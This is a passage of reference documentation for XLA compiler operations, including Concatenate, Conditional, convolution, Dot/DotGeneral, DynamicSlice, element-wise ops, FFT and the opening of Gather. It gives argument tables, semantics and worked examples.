same rank as each of the input array operands (which must be of the same rank as
each other) and contains the arguments in the order that they were specified.

<b> `Concatenate(operands..., dimension)` </b>

| Arguments   | Type                  | Semantics                              |
| ----------- | --------------------- | -------------------------------------- |
| `operands`  | sequence of N `XlaOp` | N arrays of type T with dimensions     |
:             :                       : [L0, L1, ...]. Requires N >= 1.        :
| `dimension` | `int64`               | A value in the interval `[0, N)` that  |
:             :                       : names the dimension to be concatenated :
:             :                       : between the `operands`.                :

With the exception of `dimension` all dimensions must be the same. This is
because XLA does not support "ragged" arrays. Also note that rank-0 values
cannot be concatenated (as it's impossible to name the dimension along which the
concatenation occurs).

1-dimensional example:

```
Concat({{2, 3}, {4, 5}, {6, 7}}, 0)
>>> {2, 3, 4, 5, 6, 7}
```

2-dimensional example:

```
let a = {
{1, 2},
{3, 4},
{5, 6},
};
let b = {
{7, 8},
};
Concat({a, b}, 0)
>>> {
{1, 2},
{3, 4},
{5, 6},
{7, 8},
}
```

Diagram:
<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">

</div>

## Conditional

See also
[`XlaBuilder::Conditional`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `Conditional(pred, true_operand, true_computation, false_operand,
false_computation)` </b>

<!-- mdformat off(disable mdformat for proper MathJax formatting) -->

Arguments           | Type             | Semantics
------------------- | ---------------- | ------------------------------------
`pred`              | `XlaOp`          | Scalar of type `PRED`
`true_operand`      | `XlaOp`          | Argument of type \\(T_0\\)
`true_computation`  | `XlaComputation` | XlaComputation of type \\(T_0 \to S\\)
`false_operand`     | `XlaOp`          | Argument of type \\(T_1\\)
`false_computation` | `XlaComputation` | XlaComputation of type \\(T_1 \to S\\)

Executes `true_computation` if `pred` is `true`, `false_computation` if `pred`
is `false`, and returns the result.

The `true_computation` must take in a single argument of type \\(T_0\\) and will
be invoked with `true_operand` which must be of the same type. The
`false_computation` must take in a single argument of type \\(T_1\\) and will be
invoked with `false_operand` which must be of the same type. The type of the
returned value of `true_computation` and `false_computation` must be the same.

<!-- mdformat on -->

Note that only one of `true_computation` and `false_computation` will be
executed depending on the value of `pred`.

<b> `Conditional(branch_index, branch_computations, branch_operands)` </b>

<!-- mdformat off(disable mdformat for proper MathJax formatting) -->

| Arguments             | Type                  | Semantics                    |
| --------------------- | --------------------- | ---------------------------- |
| `branch_index`        | `XlaOp`               | Scalar of type `S32`         |
| `branch_computations` | sequence of N         | XlaComputations of type \\(  |
:                       : `XlaComputation`      : T_0 \to S , T_1 \to S , ..., :
:                       :                       : T_{N-1} \to S \\)            :
| `branch_operands`     | sequence of N `XlaOp` | Arguments of type \\( T_0 ,  |
:                       :                       : T_1 , ..., T_{N-1} \\)       :

<!-- mdformat on -->

Executes `branch_computations[branch_index]`, and returns the result. If
`branch_index` is an `S32` which is < 0 or >= N, then `branch_computations[N-1]`
is executed as the default branch.

Each `branch_computations[b]` must take in a single argument of type `T_b` and
will be invoked with `branch_operands[b]` which must be of the same type. The
type of the returned value of each `branch_computations[b]` must be the same.

Note that only one of the `branch_computations` will be executed depending on
the value of `branch_index`.

## Conv (convolution)

See also
[`XlaBuilder::Conv`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

As ConvWithGeneralPadding, but the padding is specified in a short-hand way as
either SAME or VALID. SAME padding pads the input (`lhs`) with zeroes so that
the output has the same shape as the input when not taking striding into
account. VALID padding simply means no padding.

## ConvWithGeneralPadding (convolution)

See also
[`XlaBuilder::ConvWithGeneralPadding`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Computes a convolution of the kind used in neural networks. Here, a convolution
can be thought of as a n-dimensional window moving across a n-dimensional base
area and a computation is performed for each possible position of the window.

| Arguments             | Type                     | Semantics                |
| --------------------- | ------------------------ | ------------------------ |
| `lhs`                 | `XlaOp`                  | rank n+2 array of inputs |
| `rhs`                 | `XlaOp`                  | rank n+2 array of kernel |
:                       :                          : weights                  :
| `window_strides`      | `ArraySlice<int64>`      | n-d array of kernel      |
:                       :                          : strides                  :
| `padding`             | `ArraySlice< pair<int64, | n-d array of (low, high) |
:                       : int64>>`                 : padding                  :
| `lhs_dilation`        | `ArraySlice<int64>`      | n-d lhs dilation factor  |
:                       :                          : array                    :
| `rhs_dilation`        | `ArraySlice<int64>`      | n-d rhs dilation factor  |
:                       :                          : array                    :
| `feature_group_count` | int64                    | the number of feature    |
:                       :                          : groups                   :
| `batch_group_count`   | int64                    | the number of batch      |
:                       :                          : groups                   :

Let n be the number of spatial dimensions. The `lhs` argument is a rank n+2
array describing the base area. This is called the input, even though of course
the rhs is also an input. In a neural network, these are the input activations.
The n+2 dimensions are, in this order:

*   `batch`: Each coordinate in this dimension represents an independent input
for which convolution is carried out.
*   `z/depth/features`: Each (y,x) position in the base area has a vector
associated to it, which goes into this dimension.
*   `spatial_dims`: Describes the `n` spatial dimensions that define the base
area that the window moves across.

The `rhs` argument is a rank n+2 array describing the convolutional
filter/kernel/window. The dimensions are, in this order:

*   `output-z`: The `z` dimension of the output.
*   `input-z`: The size of this dimension times `feature_group_count` should
equal the size of the `z` dimension in lhs.
*   `spatial_dims`: Describes the `n` spatial dimensions that define the n-d
window that moves across the base area.

The `window_strides` argument specifies the stride of the convolutional window
in the spatial dimensions. For example, if the stride in the first spatial
dimension is 3, then the window can only be placed at coordinates where the
first spatial index is divisible by 3.

The `padding` argument specifies the amount of zero padding to be applied to the
base area. The amount of padding can be negative -- the absolute value of
negative padding indicates the number of elements to remove from the specified
dimension before doing the convolution. `padding[0]` specifies the padding for
dimension `y` and `padding[1]` specifies the padding for dimension `x`. Each
pair has the low padding as the first element and the high padding as the second
element. The low padding is applied in the direction of lower indices while the
high padding is applied in the direction of higher indices. For example, if
`padding[1]` is `(2,3)` then there will be a padding by 2 zeroes on the left and
by 3 zeroes on the right in the second spatial dimension. Using padding is
equivalent to inserting those same zero values into the input (`lhs`) before
doing the convolution.

The `lhs_dilation` and `rhs_dilation` arguments specify the dilation factor to
be applied to the lhs and rhs, respectively, in each spatial dimension. If the
dilation factor in a spatial dimension is d, then d-1 holes are implicitly
placed between each of the entries in that dimension, increasing the size of the
array. The holes are filled with a no-op value, which for convolution means
zeroes.

Dilation of the rhs is also called atrous convolution. For more details, see
`tf.nn.atrous_conv2d`. Dilation of the lhs is also called transposed
convolution. For more details, see `tf.nn.conv2d_transpose`.

The `feature_group_count` argument (default value 1) can be used for grouped
convolutions. `feature_group_count` needs to be a divisor of both the input and
the output feature dimension. If `feature_group_count` is greater than 1, it
means that conceptually the input and output feature dimension and the `rhs`
output feature dimension are split evenly into `feature_group_count` many
groups, each group consisting of a consecutive subsequence of features. The
input feature dimension of `rhs` needs to be equal to the `lhs` input feature
dimension divided by `feature_group_count` (so it already has the size of a
group of input features). The i-th groups are used together to compute
`feature_group_count` many separate convolutions. The results of these
convolutions are concatenated together in the output feature dimension.

For depthwise convolution the `feature_group_count` argument would be set to the
input feature dimension, and the filter would be reshaped from
`[filter_height, filter_width, in_channels, channel_multiplier]` to
`[filter_height, filter_width, 1, in_channels * channel_multiplier]`. For more
details, see `tf.nn.depthwise_conv2d`.

The `batch_group_count` (default value 1) argument can be used for grouped
filters during backpropagation. `batch_group_count` needs to be a divisor of the
size of the `lhs` (input) batch dimension. If `batch_group_count` is greater
than 1, it means that the output batch dimension should be of size `input batch
/ batch_group_count`. The `batch_group_count` must be a divisor of the output
feature size.

The output shape has these dimensions, in this order:

*   `batch`: The size of this dimension times `batch_group_count` should equal
    the size of the `batch` dimension in lhs.
*   `z`: Same size as `output-z` on the kernel (`rhs`).
*   `spatial_dims`: One value for each valid placement of the convolutional
    window.

The valid placements of the convolutional window are determined by the strides
and the size of the base area after padding.

To describe what a convolution does, consider a 2d convolution, and pick some
fixed `batch`, `z`, `y`, `x` coordinates in the output. Then `(y,x)` is a
position of a corner of the window within the base area (e.g. the upper left
corner, depending on how you interpret the spatial dimensions). We now have a 2d
window, taken from the base area, where each 2d point is associated to a 1d
vector, so we get a 3d box. From the convolutional kernel, since we fixed the
output coordinate `z`, we also have a 3d box. The two boxes have the same
dimensions, so we can take the sum of the element-wise products between the two
boxes (similar to a dot product). That is the output value.

Note that if `output-z` is e.g., 5, then each position of the window produces 5
values in the output into the `z` dimension of the output. These values differ
in what part of the convolutional kernel is used - there is a separate 3d box of
values used for each `output-z` coordinate. So you could think of it as 5
separate convolutions with a different filter for each of them.

Here is pseudo-code for a 2d convolution with padding and striding:

```
for (b, oz, oy, ox) {  // output coordinates
  value = 0;
  for (iz, ky, kx) {  // kernel coordinates and input z
    iy = oy*stride_y + ky - pad_low_y;
    ix = ox*stride_x + kx - pad_low_x;
    if ((iy, ix) inside the base area considered without padding) {
      value += input(b, iz, iy, ix) * kernel(oz, iz, ky, kx);
    }
  }
  output(b, oz, oy, ox) = value;
}
```

## ConvertElementType

See also
[`XlaBuilder::ConvertElementType`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Similar to an element-wise `static_cast` in C++, performs an element-wise
conversion operation from a data shape to a target shape. The dimensions must
match, and the conversion is an element-wise one; e.g. `s32` elements become
`f32` elements via an `s32`-to-`f32` conversion routine.

<b> `ConvertElementType(operand, new_element_type)` </b>

Arguments          | Type            | Semantics
------------------ | --------------- | ---------------------------
`operand`          | `XlaOp`         | array of type T with dims D
`new_element_type` | `PrimitiveType` | type U

The dimensions of the operand and the target shape must match. The source and
destination element types must not be tuples.

A conversion such as `T=s32` to `U=f32` will perform a normalizing int-to-float
conversion routine such as round-to-nearest-even.

> Note: The precise float-to-int and visa-versa conversions are currently
> unspecified, but may become additional arguments to the convert operation in
> the future.  Not all possible conversions have been implemented for all
>targets.

```
let a: s32[3] = {0, 1, 2};
let b: f32[3] = convert(a, f32);
then b == f32[3]{0.0, 1.0, 2.0}
```

## CrossReplicaSum

Performs `AllReduce` with a summation computation.

## OptimizationBarrier

Blocks any optimization pass from moving computations across the barrier.

Ensures that all inputs are evaluated before any operators that depend on the
barrier's outputs.

## CustomCall

See also
[`XlaBuilder::CustomCall`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Call a user-provided function within a computation.

<b> `CustomCall(target_name, args..., shape)` </b>

| Arguments     | Type                   | Semantics                         |
| ------------- | ---------------------- | --------------------------------- |
| `target_name` | `string`               | Name of the function. A call      |
:               :                        : instruction will be emitted which :
:               :                        : targets this symbol name.         :
| `args`        | sequence of N `XlaOp`s | N arguments of arbitrary type,    |
:               :                        : which will be passed to the       :
:               :                        : function.                         :
| `shape`       | `Shape`                | Output shape of the function      |

The function signature is the same, regardless of the arity or type of args:

```
extern "C" void target_name(void* out, void** in);
```

For example, if CustomCall is used as follows:

```
let x = f32[2] {1,2};
let y = f32[2x3] {{10, 20, 30}, {40, 50, 60}};

CustomCall("myfunc", {x, y}, f32[3x3])
```

Here is an example of an implementation of `myfunc`:

```
extern "C" void myfunc(void* out, void** in) {
  float (&x)[2] = *static_cast<float(*)[2]>(in[0]);
  float (&y)[2][3] = *static_cast<float(*)[2][3]>(in[1]);
  EXPECT_EQ(1, x[0]);
  EXPECT_EQ(2, x[1]);
  EXPECT_EQ(10, y[0][0]);
  EXPECT_EQ(20, y[0][1]);
  EXPECT_EQ(30, y[0][2]);
  EXPECT_EQ(40, y[1][0]);
  EXPECT_EQ(50, y[1][1]);
  EXPECT_EQ(60, y[1][2]);
  float (&z)[3][3] = *static_cast<float(*)[3][3]>(out);
  z[0][0] = x[1] + y[1][0];
  // ...
}
```

The user-provided function must not have side-effects and its execution must be
idempotent.

> Note: The opaque nature of the user-provided function restricts optimization
> opportunities for the compiler. Try to express your computation in terms of
> native XLA ops whenever possible; only use CustomCall as a last resort.

## Dot

See also
[`XlaBuilder::Dot`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `Dot(lhs, rhs)` </b>

Arguments | Type    | Semantics
--------- | ------- | ---------------
`lhs`     | `XlaOp` | array of type T
`rhs`     | `XlaOp` | array of type T

The exact semantics of this operation depend on the ranks of the operands:

| Input                   | Output                | Semantics               |
| ----------------------- | --------------------- | ----------------------- |
| vector [n] `dot` vector | scalar                | vector dot product      |
: [n]                     :                       :                         :
| matrix [m x k] `dot`    | vector [m]            | matrix-vector           |
: vector [k]              :                       : multiplication          :
| matrix [m x k] `dot`    | matrix [m x n]        | matrix-matrix           |
: matrix [k x n]          :                       : multiplication          :

The operation performs sum of products over the second dimension of `lhs` (or
the first if it has rank 1) and the first dimension of `rhs`. These are the
"contracted" dimensions. The contracted dimensions of `lhs` and `rhs` must be of
the same size. In practice, it can be used to perform dot products between
vectors, vector/matrix multiplications or matrix/matrix multiplications.

## DotGeneral

See also
[`XlaBuilder::DotGeneral`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `DotGeneral(lhs, rhs, dimension_numbers)` </b>

Arguments           | Type                  | Semantics
------------------- | --------------------- | ---------------
`lhs`               | `XlaOp`               | array of type T
`rhs`               | `XlaOp`               | array of type T
`dimension_numbers` | `DotDimensionNumbers` | contracting and batch dimension numbers

As Dot, but allows contracting and batch dimension numbers to be specified for
both the 'lhs' and 'rhs'.

| DotDimensionNumbers Fields | Type                    | Semantics
| --------- | ----------------------- | ---------------
| 'lhs_contracting_dimensions' | repeated int64 | 'lhs' contracting dimension numbers |
| 'rhs_contracting_dimensions' | repeated int64 | 'rhs' contracting dimension numbers |
| 'lhs_batch_dimensions' | repeated int64 | 'lhs' batch dimension numbers |
| 'rhs_batch_dimensions' | repeated int64 | 'rhs' batch dimension numbers |

DotGeneral performs the sum of products over contracting dimensions specified
in 'dimension_numbers'.

Associated contracting dimension numbers from the 'lhs' and 'rhs' do not need
to be the same but must have the same dimension sizes.

Example with contracting dimension numbers:

```
lhs = { {1.0, 2.0, 3.0},
{4.0, 5.0, 6.0} }

rhs = { {1.0, 1.0, 1.0},
{2.0, 2.0, 2.0} }

DotDimensionNumbers dnums;
dnums.add_lhs_contracting_dimensions(1);
dnums.add_rhs_contracting_dimensions(1);

DotGeneral(lhs, rhs, dnums) -> { {6.0, 12.0},
{15.0, 30.0} }
```

Associated batch dimension numbers from the 'lhs' and 'rhs' must
have the same dimension sizes.

Example with batch dimension numbers (batch size 2, 2x2 matrices):

```
lhs = { { {1.0, 2.0},
{3.0, 4.0} },
{ {5.0, 6.0},
{7.0, 8.0} } }

rhs = { { {1.0, 0.0},
{0.0, 1.0} },
{ {1.0, 0.0},
{0.0, 1.0} } }

DotDimensionNumbers dnums;
dnums.add_lhs_contracting_dimensions(2);
dnums.add_rhs_contracting_dimensions(1);
dnums.add_lhs_batch_dimensions(0);
dnums.add_rhs_batch_dimensions(0);

DotGeneral(lhs, rhs, dnums) -> { { {1.0, 2.0},
{3.0, 4.0} },
{ {5.0, 6.0},
{7.0, 8.0} } }
```

| Input                               | Output            | Semantics        |
| ----------------------------------- | ----------------- | ---------------- |
| [b0, m, k] `dot` [b0, k, n]         | [b0, m, n]        |  batch matmul    |
| [b0, b1, m, k] `dot` [b0, b1, k, n] | [b0, b1, m, n]    |  batch matmul    |

It follows that the resulting dimension number starts with the batch dimension,
then the 'lhs' non-contracting/non-batch dimension, and finally the 'rhs'
non-contracting/non-batch dimension.

## DynamicSlice

See also
[`XlaBuilder::DynamicSlice`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

DynamicSlice extracts a sub-array from the input array at dynamic
`start_indices`. The size of the slice in each dimension is passed in
`size_indices`, which specify the end point of exclusive slice intervals in each
dimension: [start, start + size). The shape of `start_indices` must be rank ==
1, with dimension size equal to the rank of `operand`.

<b> `DynamicSlice(operand, start_indices, size_indices)` </b>

| Arguments       | Type                  | Semantics                          |
| --------------- | --------------------- | ---------------------------------- |
| `operand`       | `XlaOp`               | N dimensional array of type T      |
| `start_indices` | sequence of N `XlaOp` | List of N scalar integers          |
:                 :                       : containing the starting indices of :
:                 :                       : the slice for each dimension.      :
:                 :                       : Value must be greater than or      :
:                 :                       : equal to zero.                     :
| `size_indices`  | `ArraySlice<int64>`   | List of N integers containing the  |
:                 :                       : slice size for each dimension.     :
:                 :                       : Each value must be strictly        :
:                 :                       : greater than zero, and start +     :
:                 :                       : size must be less than or equal to :
:                 :                       : the size of the dimension to avoid :
:                 :                       : wrapping modulo dimension size.    :

The effective slice indices are computed by applying the following
transformation for each index `i` in `[1, N)` before performing the slice:

```
start_indices[i] = clamp(start_indices[i], 0, operand.dimension_size[i] - size_indices[i])
```

This ensures that the extracted slice is always in-bounds with respect to the
operand array. If the slice is in-bounds before the transformation is applied,
the transformation has no effect.

1-dimensional example:

```
let a = {0.0, 1.0, 2.0, 3.0, 4.0}
let s = {2}

DynamicSlice(a, s, {2}) produces:
{2.0, 3.0}
```

2-dimensional example:

```
let b =
{ {0.0,  1.0,  2.0},
{3.0,  4.0,  5.0},
{6.0,  7.0,  8.0},
{9.0, 10.0, 11.0} }
let s = {2, 1}

DynamicSlice(b, s, {2, 2}) produces:
{ { 7.0,  8.0},
{10.0, 11.0} }
```
## DynamicUpdateSlice

See also
[`XlaBuilder::DynamicUpdateSlice`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

DynamicUpdateSlice generates a result which is the value of the input array
`operand`, with a slice `update` overwritten at `start_indices`.
The shape of `update` determines the shape of the sub-array of the result which
is updated.
The shape of `start_indices` must be rank == 1, with dimension size equal to
the rank of `operand`.

<b> `DynamicUpdateSlice(operand, update, start_indices)` </b>

| Arguments       | Type                  | Semantics                          |
| --------------- | --------------------- | ---------------------------------- |
| `operand`       | `XlaOp`               | N dimensional array of type T      |
| `update`        | `XlaOp`               | N dimensional array of type T      |
:                 :                       : containing the slice update. Each  :
:                 :                       : dimension of update shape must be  :
:                 :                       : strictly greater than zero, and    :
:                 :                       : start + update must be less than   :
:                 :                       : or equal to the operand size for   :
:                 :                       : each dimension to avoid generating :
:                 :                       : out-of-bounds update indices.      :
| `start_indices` | sequence of N `XlaOp` | List of N scalar integers          |
:                 :                       : containing the starting indices of :
:                 :                       : the slice for each dimension.      :
:                 :                       : Value must be greater than or      :
:                 :                       : equal to zero.                     :

The effective slice indices are computed by applying the following
transformation for each index `i` in `[1, N)` before performing the slice:

```
start_indices[i] = clamp(start_indices[i], 0, operand.dimension_size[i] - update.dimension_size[i])
```

This ensures that the updated slice is always in-bounds with respect to the
operand array. If the slice is in-bounds before the transformation is applied,
the transformation has no effect.

1-dimensional example:

```
let a = {0.0, 1.0, 2.0, 3.0, 4.0}
let u = {5.0, 6.0}
let s = {2}

DynamicUpdateSlice(a, u, s) produces:
{0.0, 1.0, 5.0, 6.0, 4.0}
```

2-dimensional example:

```
let b =
{ {0.0,  1.0,  2.0},
{3.0,  4.0,  5.0},
{6.0,  7.0,  8.0},
{9.0, 10.0, 11.0} }
let u =
{ {12.0,  13.0},
{14.0,  15.0},
{16.0,  17.0} }

let s = {1, 1}

DynamicUpdateSlice(b, u, s) produces:
{ {0.0,  1.0,  2.0},
{3.0, 12.0, 13.0},
{6.0, 14.0, 15.0},
{9.0, 16.0, 17.0} }
```

## Element-wise binary arithmetic operations

See also
[`XlaBuilder::Add`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

A set of element-wise binary arithmetic operations is supported.

<b> `Op(lhs, rhs)` </b>

Where `Op` is one of `Add` (addition), `Sub` (subtraction), `Mul`
(multiplication), `Div` (division), `Rem` (remainder), `Max` (maximum), `Min`
(minimum), `LogicalAnd` (logical AND), or `LogicalOr` (logical OR).

Arguments | Type    | Semantics
--------- | ------- | ----------------------------------------
`lhs`     | `XlaOp` | left-hand-side operand: array of type T
`rhs`     | `XlaOp` | right-hand-side operand: array of type T

The arguments' shapes have to be either similar or compatible. See the
[broadcasting](broadcasting.md) documentation about what it means for shapes to
be compatible. The result of an operation has a shape which is the result of
broadcasting the two input arrays. In this variant, operations between arrays of
different ranks are *not* supported, unless one of the operands is a scalar.

When `Op` is `Rem`, the sign of the result is taken from the dividend, and the
absolute value of the result is always less than the divisor's absolute value.

Integer division overflow (signed/unsigned division/remainder by zero or signed
division/remainder of `INT_SMIN` with `-1`) produces an implementation defined
value.

An alternative variant with different-rank broadcasting support exists for these
operations:

<b> `Op(lhs, rhs, broadcast_dimensions)` </b>

Where `Op` is the same as above. This variant of the operation should be used
for arithmetic operations between arrays of different ranks (such as adding a
matrix to a vector).

The additional `broadcast_dimensions` operand is a slice of integers used to
expand the rank of the lower-rank operand up to the rank of the higher-rank
operand. `broadcast_dimensions` maps the dimensions of the lower-rank shape to
the dimensions of the higher-rank shape. The unmapped dimensions of the expanded
shape are filled with dimensions of size one. Degenerate-dimension broadcasting
then broadcasts the shapes along these degenerate dimensions to equalize the
shapes of both operands. The semantics are described in detail on the
[broadcasting page](broadcasting.md).

## Element-wise comparison operations

See also
[`XlaBuilder::Eq`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

A set of standard element-wise binary comparison operations is supported. Note
that standard IEEE 754 floating-point comparison semantics apply when comparing
floating-point types.

<b> `Op(lhs, rhs)` </b>

Where `Op` is one of `Eq` (equal-to), `Ne` (not equal-to), `Ge`
(greater-or-equal-than), `Gt` (greater-than), `Le` (less-or-equal-than), `Lt`
(less-than). Another set of operators, EqTotalOrder, NeTotalOrder, GeTotalOrder,
GtTotalOrder, LeTotalOrder, and LtTotalOrder, provide the same functionalities,
except that they additionally support a total order over the floating point
numbers, by enforcing -NaN < -Inf < -Finite < -0 < +0 < +Finite < +Inf < +NaN.

Arguments | Type    | Semantics
--------- | ------- | ----------------------------------------
`lhs`     | `XlaOp` | left-hand-side operand: array of type T
`rhs`     | `XlaOp` | right-hand-side operand: array of type T

The arguments' shapes have to be either similar or compatible. See the
[broadcasting](broadcasting.md) documentation about what it means for shapes to
be compatible. The result of an operation has a shape which is the result of
broadcasting the two input arrays with the element type `PRED`. In this variant,
operations between arrays of different ranks are *not* supported, unless one of
the operands is a scalar.

An alternative variant with different-rank broadcasting support exists for these
operations:

<b> `Op(lhs, rhs, broadcast_dimensions)` </b>

Where `Op` is the same as above. This variant of the operation should be used
for comparison operations between arrays of different ranks (such as adding a
matrix to a vector).

The additional `broadcast_dimensions` operand is a slice of integers specifying
the dimensions to use for broadcasting the operands. The semantics are described
in detail on the [broadcasting page](broadcasting.md).

## Element-wise unary functions

XlaBuilder supports these element-wise unary functions:

<b>`Abs(operand)`</b> Element-wise abs `x -> |x|`.

<b>`Ceil(operand)`</b> Element-wise ceil `x -> ⌈x⌉`.

<b>`Cos(operand)`</b> Element-wise cosine `x -> cos(x)`.

<b>`Exp(operand)`</b> Element-wise natural exponential `x -> e^x`.

<b>`Floor(operand)`</b> Element-wise floor `x -> ⌊x⌋`.

<b>`Imag(operand)`</b> Element-wise imaginary part of a complex (or real)
shape. `x -> imag(x)`. If the operand is a floating point type, returns 0.

<b>`IsFinite(operand)`</b> Tests whether each element of `operand` is finite,
i.e., is not positive or negative infinity, and is not `NaN`. Returns an array
of `PRED` values with the same shape as the input, where each element is `true`
if and only if the corresponding input element is finite.

<b>`Log(operand)`</b> Element-wise natural logarithm `x -> ln(x)`.

<b>`LogicalNot(operand)`</b> Element-wise logical not `x -> !(x)`.

<b>`Logistic(operand)`</b> Element-wise logistic function computation `x ->
logistic(x)`.

<b>`PopulationCount(operand)`</b> Computes the number of bits set in each
element of `operand`.

<b>`Neg(operand)`</b> Element-wise negation `x -> -x`.

<b>`Real(operand)`</b> Element-wise real part of a complex (or real) shape.
`x -> real(x)`. If the operand is a floating point type, returns the same value.

<b>`Rsqrt(operand)`</b> Element-wise reciprocal of square root operation
`x -> 1.0 / sqrt(x)`.

<b>`Sign(operand)`</b> Element-wise sign operation `x -> sgn(x)` where

$$\text{sgn}(x) = \begin{cases} -1 & x < 0\\ -0 & x = -0\\ NaN & x = NaN\\ +0 & x = +0\\ 1 & x > 0 \end{cases}$$

using the comparison operator of the element type of `operand`.

<b>`Sqrt(operand)`</b> Element-wise square root operation `x -> sqrt(x)`.

<b>`Cbrt(operand)`</b> Element-wise cubic root operation `x -> cbrt(x)`.

<b>`Tanh(operand)`</b> Element-wise hyperbolic tangent `x -> tanh(x)`.


Arguments | Type    | Semantics
--------- | ------- | ---------------------------
`operand` | `XlaOp` | The operand to the function

The function is applied to each element in the `operand` array, resulting in an
array with the same shape. It is allowed for `operand` to be a scalar (rank 0).

## Fft

The XLA FFT operation implements the forward and inverse Fourier Transforms for
real and complex inputs/outputs. Multidimensional FFTs on up to 3 axes are
supported.

See also
[`XlaBuilder::Fft`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

| Arguments    | Type                | Semantics                |
| ------------ | ------------------- | ------------------------ |
| `operand`    | `XlaOp`             | The array we are Fourier |
:              :                     : transforming.            :
| `fft_type`   | `FftType`           | See the table below.     |
| `fft_length` | `ArraySlice<int64>` | The time-domain lengths  |
:              :                     : of the axes being        :
:              :                     : transformed. This is     :
:              :                     : needed in particular for :
:              :                     : IRFFT to right-size the  :
:              :                     : innermost axis, since    :
:              :                     : `RFFT(fft_length=[16])`  :
:              :                     : has the same output      :
:              :                     : shape as                 :
:              :                     : `RFFT(fft_length=[17])`. :

| `FftType` | Semantics                                                        |
| --------- | ---------------------------------------------------------------- |
| `FFT`     | Forward complex-to-complex FFT. Shape is unchanged.              |
| `IFFT`    | Inverse complex-to-complex FFT. Shape is unchanged.              |
| `RFFT`    | Forward real-to-complex FFT. Shape of the innermost axis is      |
:           : reduced to `fft_length[-1] // 2 + 1` if `fft_length[-1]` is a    :
:           : non-zero value, omitting the reversed conjugate part of the      :
:           : transformed signal beyond the Nyquist frequency.                 :
| `IRFFT`   | Inverse real-to-complex FFT (i.e. takes complex, returns real).  |
:           : Shape of the innermost axis is expanded to `fft_length[-1]` if   :
:           : `fft_length[-1]` is a non-zero value, inferring the part of the  :
:           : transformed signal beyond the Nyquist frequency from the reverse :
:           : conjugate of the `1` to `fft_length[-1] // 2 + 1` entries.       :

#### Multidimensional FFT

When more than 1 `fft_length` is provided, this is equivalent to applying a
cascade of FFT operations to each of the innermost axes. Note that for the
real->complex and complex->real cases, the innermost axis transform is
(effectively) performed first (RFFT; last for IRFFT), which is why the innermost
axis is the one which changes size. Other axis transforms will then be
complex->complex.

#### Implementation details

CPU FFT is backed by Eigen's TensorFFT. GPU FFT uses cuFFT.

## Gather

The XLA gather operation stitches together several slices (each slice at a
potentially different runtime offset) of an input array.

### General Semantics

See also
[`XlaBuilder::Gather`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).
For a more intuitive description, see the "Informal Description" section below.

<b> `gather(operand, start_indices, offset_dims, collapsed_slice_dims, slice_sizes, start_index_map)` </b>

| Arguments              | Type                | Semantics                     |
| ---------------------- | ------------------- | ----------------------------- |
| `operand`              | `XlaOp`             | The array we’re gathering     |
:                        :                     : from.                         :
| `start_indices`        | `XlaOp`             | Array containing the starting |
:                        :                     : indices of the slices we      :
:                        :                     : gather.                       :
| `index_vector_dim`     | `int64`             | The dimension in              |
:                        :                     : `start_indices` that          :
:                        :                     : "contains" the starting       :
:                        :                     : indices. See below for a      :
:                        :                     : detailed description.         :
| `offset_dims`          | `ArraySlice<int64>` | The set of dimensions in the  |
:                        :                     : output shape that offset into :
:                        :                     : an array sliced from operand. :
| `slice_sizes`          | `ArraySlice<int64>` | `slice_sizes[i]` is the       |
:                        :                     : bounds for the slice on       :
:                        :                     : dimension `i`.                :
| `collapsed_slice_dims` | `ArraySlice<int64>` | The set of dimensions in each |
:                        :                     : slice that are collapsed      :
:                        :                     : away. These dimensions must   :
:                        :                     : have size 1.                  :
| `start_index_map`      | `ArraySlice<int64>` | A map that describes how to   |
:                        :                     : map indices in                :
:                        :                     : `start_indices` to legal      :
:                        :                     : indices into operand.         :
| `indices_are_sorted`   | `bool`              | Whether the indices are       |
:                        :                     : guaranteed to be sorted by    :
:                        :                     : the caller.                   :
| `unique_indices`       | `bool`              | Whether the indices are       |
:                        :                     : guaranteed to be unique by    :
:                        :                     : the caller.                   :

For convenience, we label dimensions in the output array not in `offset_dims`
as `batch_dims`.

The output is an array of rank `batch_dims.size` + `offset_dims.size`.

The `operand.rank` must equal the sum of `offset_dims.size` and
`collapsed_slice_dims.size`. Also, `slice_sizes.size` has to be equal to
`operand.rank`.

If `index_vector_dim` is equal to `start_indices.rank` we implicitly consider
`start_indices` to have a trailing `1` dimension (i.e. if `start_indices` was of
shape `[6,7]` and `index_vector_dim` is `2` then we implicitly consider the
shape of `start_indices` to be `[6,7,1]`).

The bounds for the output array along dimension `i` is computed as follows:

1. If `i` is present in `batch_dims` (i.e. is equal to `batch_dims[k]` for
some `k`) then we pick the corresponding dimension bounds out of
`start_indices.shape`, skipping `index_vector_dim` (i.e. pick
`start_indices.shape.dims`[`k`] if `k` < `index_vector_dim` and
`start_indices.shape.dims`[`k`+`1`] otherwise).

2. If `i` is present in `offset_dims` (i.e. equal to `offset_dims`[`k`] for
some `k`) then we pick the corresponding bound out of `slice_sizes` after
accounting for `collapsed_slice_dims` (i.e. we pick
`adjusted_slice_sizes`[`k`] where `adjusted_slice_sizes` is `slice_sizes`
with the bounds at indices `collapsed_slice_dims` removed).

Formally, the operand index `In` corresponding to a given output index `Out` is
calculated as follows:

1.  Let `G` = { `Out`[`k`] for `k` in `batch_dims` }. Use `G` to slice out a
    vector `S` such that `S`[`i`] = `start_indices`[Combine(`G`, `i`)] where
    Combine(A, b) inserts b at position `index_vector_dim` into A. Note that
    this is well defined even if `G` is empty -- if `G` is empty then `S` =
    `start_indices`.

2.  Create a starting index, `S`<sub>`in`</sub>, into `operand` using `S` by
    scattering `S` using `start_index_map`. More precisely:

